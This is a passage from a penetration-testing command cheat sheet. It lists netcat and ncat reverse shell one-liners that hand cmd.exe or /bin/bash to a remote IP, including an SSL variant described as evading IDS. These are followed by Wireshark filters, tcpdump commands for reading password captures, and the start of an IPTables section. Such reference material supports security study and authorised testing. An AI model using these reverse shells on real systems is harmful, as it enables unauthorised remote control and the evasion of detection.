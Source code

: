         `nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe`

    -   Create a reverse shell with Ncat using bash on Linux
        `nc -nv $ip 4444 -e /bin/bash`

    -   Netcat for Banner Grabbing:

        `echo "" | nc -nv -w1 <IP Address> <Ports>`

-   Ncat - Netcat for Nmap project which provides more security avoid
    IDS

    -   Reverse shell from windows using cmd.exe using ssl
        `ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl`

    -   Listen on port 4444 using ssl
        `ncat -v $ip 4444 --ssl`

-   Wireshark
    -   Show only SMTP (port 25) and ICMP traffic:

        `tcp.port eq 25 or icmp`

    -   Show only traffic in the LAN (192.168.x.x), between workstations and servers -- no Internet:

        `ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16`

    -   Filter by a protocol ( e.g. SIP ) and filter out unwanted IPs:

        `ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip`

    -   Some commands are equal

        `ip.addr == xxx.xxx.xxx.xxx`

         Equals

        `ip.src == xxx.xxx.xxx.xxx or ip.dst == xxx.xxx.xxx.xxx `

        ` ip.addr != xxx.xxx.xxx.xxx`

         Equals

        `ip.src != xxx.xxx.xxx.xxx or ip.dst != xxx.xxx.xxx.xxx`

-   Tcpdump

    -   Display a pcap file
       `tcpdump -r passwordz.pcap`

    -   Display ips and filter and sort
        `tcpdump -n -r passwordz.pcap | awk -F" " '{print $3}' | sort -u | head`

    -   Grab a packet capture on port 80
        `tcpdump tcp port 80 -w output.pcap -i eth0`

    -   Check for ACK or PSH flag set in a TCP packet
        `tcpdump -A -n 'tcp[13] = 24' -r passwordz.pcap`

-   IPTables

    -   Deny traffic to ports except for Local Loopback
